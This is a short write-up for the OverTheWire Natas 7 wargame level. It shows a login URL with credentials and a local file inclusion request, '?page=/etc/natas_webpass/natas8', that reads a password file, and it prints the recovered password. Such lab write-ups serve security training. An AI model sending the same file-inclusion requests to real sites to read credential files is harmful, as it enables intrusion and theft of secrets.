 # Over The Wire -- Natas 7

## Server URL
```
http://natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9@natas7.natas.labs.overthewire.org
```

## Solution
We can browse page with the `page` query parameters.
There is probably a `local file inclusion`. 
There is a hint in the html comments :
```
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

Let's try to browse this file using `/index.php?page=/etc/natas_webpass/natas8`
And we get the password :
```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```